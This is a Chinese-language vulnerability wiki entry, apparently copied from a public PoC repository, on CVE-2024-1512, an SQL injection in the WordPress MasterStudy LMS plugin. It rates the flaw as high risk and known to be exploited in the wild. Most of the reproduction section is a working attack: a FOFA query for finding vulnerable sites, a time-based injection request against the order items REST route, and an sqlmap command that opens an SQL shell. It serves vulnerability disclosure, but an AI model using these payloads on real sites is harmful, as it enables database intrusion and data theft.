

# WordPress MasterStudy LMS插件 SQL注入漏洞(CVE-2024-1512)

# 漏洞描述

WordPress Plugin MasterStudy LMS 3.2.5 版本及之前版本存在安全漏洞，该漏洞源于对用户提供的参数转义不足，导致可以通过 /lms/stm-lms/order/items REST 路由的 user 参数进行基于联合的 SQL 注入。

# 影响范围

WordPress Plugin MasterStudy LMS <= 3.2.5

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 中 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：body="wp-content/plugins/masterstudy-lms-learning-management-system/"

POC/EXP1：

GET /?rest_route=/lms/stm-lms/order/items&author_id=1&user=1)+AND+%28SELECT+3493+FROM+%28SELECT%28SLEEP%285%29%29%29sauT%29+AND+%283071%3D3071 HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Linux; Android 11; motorola edge 20 fusion) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.61 Mobile Safari/537.36
Accept-Charset: utf-8
Accept-Encoding: gzip, deflate
Connection: close

sqlmap.py -u "https://127.0.0.1/?rest_route=/lms/stm-lms/order/items&author_id=1&user=1" --sql-shell

# 修复方案

**官方修复：**

关闭互联网暴露面或接口设置访问权限

升级插件版本为安全版本

---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
